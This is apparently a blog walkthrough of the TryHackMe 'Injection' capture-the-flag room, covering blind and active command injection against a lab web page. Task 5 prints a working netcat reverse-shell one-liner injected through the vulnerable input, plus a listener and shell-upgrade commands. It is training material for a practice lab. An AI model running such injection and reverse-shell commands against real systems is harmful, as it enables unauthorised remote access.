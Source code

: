 ```yaml
---
title: "Walk-through of Post-Exploitation Basics from TryHackMe"
header:
  teaser: /assets/images/2020-06-05-17-07-49.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - THM
  - CTF
  - injection
  - blind
  - Linux
---
```


## Machine Information

![post-exploit](/assets/images/2020-06-05-17-07-49.png)

Injection is a beginner level room designed to show the dangers of badly coded web pages. Skills required are basic Linux knowledge and an understanding of the layout of its filesystem. Skills learned are exploiting vulnerable webpages to achieve command injection.
<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [TryHackMe](https://tryhackme.com/) |
| Link To Machine | [THM - Easy - Injection](https://tryhackme.com/room/injection) |
| Machine Release Date | 2nd June 2020 |
| Date I Completed It | 2nd June 2020 |
| Distribution used | Kali 2020.1 – [Release Info](https://www.kali.org/releases/kali-linux-2020-1-release/) |

## Tasks 1 and 2

Task 1 and 2 are introductions and don't require any questions to be answered.

## Task 3 - Blind Injection

### Question 3.1

Ping the box with 10 packets.  What is this command (without IP address)?

A quick look at the help for ping will give you a clue to this answer:

```text
root@kali:~# ping -h
Usage
  ping [options] <destination>

Options:
  <destination>      dns name or ip address
  -a                 use audible ping
  -A                 use adaptive ping
  -B                 sticky source address
  -c <count>         stop after <count> replies
  -D                 print timestamps
  -d                 use SO_DEBUG socket option
  -f                 flood ping
  -h                 print help and exit
  -I <interface>     either interface name or address
  -i <interval>      seconds between sending each packet
  -L                 suppress loopback of multicast packets
  -l <preload>       send <preload> number of packages while waiting replies
  -m <mark>          tag the packets going out
  -M <pmtud opt>     define mtu discovery, can be one of <do|dont|want>
  -n                 no dns name resolution
  -O                 report outstanding replies
  -p <pattern>       contents of padding byte
  -q                 quiet output
  -Q <tclass>        use quality of service <tclass> bits
  -s <size>          use <size> as number of data bytes to be sent
  -S <size>          use <size> as SO_SNDBUF socket option value
  -t <ttl>           define time to live
  -U                 print user-to-user latency
  -v                 verbose output
  -V                 print version and exit
  -w <deadline>      reply wait <deadline> in seconds
  -W <timeout>       time to wait for response
```

### Question 3.2

Try to redirect output to a file on the web server.  What alert message do you see appear?

The explanation for this task talks about the standard Bash operator for redirection, which is >. We need to try redirecting our input on the vulnerable web page to see what we get:

![redirect](/assets/images/2020-06-02-22-52-46.png)

### Question 3.3

Enter "root" into the input and review the alert.  What type of alert do you get?

Simple enough, let's do as instructed, what message do we get back:

![root](/assets/images/2020-06-02-22-54-43.png)

### Question 3.4

Enter "www-data" into the input and review the alert.  What type of alert do you get?

![www-data](/assets/images/2020-06-02-22-55-50.png)

### Question 3.5

Enter your name into the input and review the alert.  What type of alert do you get?

![pencer](/assets/images/2020-06-02-22-56-37.png)

## Task 4 - Active Injection

### Question 4.1

What strange text file is in the website root directory?

Let's check where we are with pwd (present working directory):

![pwd](/assets/images/2020-06-02-23-06-05.png)

We can use ls to list the current directory, but need to try and make sense of the output:

![ls](/assets/images/2020-06-02-23-07-12.png)

### Question 4.2

How many non-root/non-service/non-daemon users are there?

We look in the passwd file to see the users on the system:

![passwd](/assets/images/2020-06-02-23-09-28.png)

We need to make sense of that output and work out the number.

### Question 4.3

What user is this app running as?

Let's check who we are:

![whoami](/assets/images/2020-06-02-23-11-57.png)

### Question 4.4

What is the user's shell set as?

We can go back to the output of the passwd file to see what our shell is set to. We can also use the getent command to make it easier:

![getent](/assets/images/2020-06-02-23-16-10.png)

### Question 4.5

What version of Ubuntu is running?

There's a helpful command called lsb_release you can use here:

![lsb_release](/assets/images/2020-06-03-16-16-02.png)

### Question 4.6

Print out the MOTD.  What favorite beverage is shown?

The way MOTD works has changed over the years, and it's different depending on the distribution. There's a hint for it in the question that will help. Also [here](https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server) is a good explanation for the version of Ubuntu we are dealing with. Here's is how you could do it:

![motd](/assets/images/2020-06-03-13-57-51.png)

## Task 5 - Get The Flag

Time to find the hidden flag. You can do this using the website, but with command injection available it's more fun to get a shell on to the box. Start nc on your attack machine:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
```

Then enter this command on the vulnerable website, changing IP and port as needed:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.17.195 1234 >/tmp/f
```

![nc](/assets/images/2020-06-02-22-59-08.png)

Back on Kali we see the connection, and have our reverse shell open:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.197.105] 35026
/bin/sh: 0: can't access tty; job control turned off
```

First thing is get a proper interactive shell running:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@injection:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~# stty raw -echo
```

Now we need to think how we will find the hidden flag. I started by looking around the obvious areas, like web site root, user home, but found nothing. So resorted to a guess on what extension the file might have and used **find** to look for it:

```text
www-data@injection:/$ find / -name *.txt 2>/dev/null | more
```

It's a longish list, but looking through that a certain file will jump out at you.

All done. See you next time.
